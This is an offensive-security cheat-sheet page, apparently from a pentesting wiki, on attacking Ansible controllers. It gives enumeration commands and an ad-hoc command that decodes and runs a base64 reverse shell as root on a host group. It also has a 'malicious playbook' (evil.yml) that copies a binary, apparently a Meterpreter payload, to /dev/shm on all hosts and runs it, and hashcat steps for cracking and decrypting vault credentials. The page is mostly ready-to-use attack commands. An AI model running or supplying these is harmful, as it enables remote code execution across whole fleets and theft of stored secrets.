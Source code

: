 # Ansible




## Enumeration

When on ansible controller:

```
$ cat /etc/passwd | grep ans
$ cat /etc/ansible/hosts
$ ansible --version
```




## Execute Code

Using ad-hoc commands:

```
$ ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash" --become
```

Malicious playbook example:

{% code title="evil.yml" %}
```yaml
# ansible-playbook evil.yml
- name: Evil playbook
  hosts: all
  gather_facts: true
  tasks:
    - name: upload
      copy:
        src: /tmp/met
        dest: /dev/shm/met
        mode: a+x
    - name: execute
      shell: "nohup /dev/shm/met &"
      async: 10
      poll: 0
```
{% endcode %}




## Crack the Vault

When vault-encrypted creds are discovered, the vault passwords can be cracked with hashcat:

```
$ /usr/share/john/ansible2john.py vuln.yaml > vault.in
$ hashcat -m 16900 -O -a 0 -w 4 --session=vault -o vault.out vault.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

The original password can then be decrypted with ansible:

```
$ cat vault.in
$ANSIBLE_VAULT;1.1;AES256
00000000000000000000000000000000000000000000000000000000000000000000000000000000
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
00000000000000000000000000000000000000000000000000000000000000000000000000000000
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
00000000000000000000000000000000000000000000000000000000000000000000

$ cat vault.in | ansible-vault decrypt
```
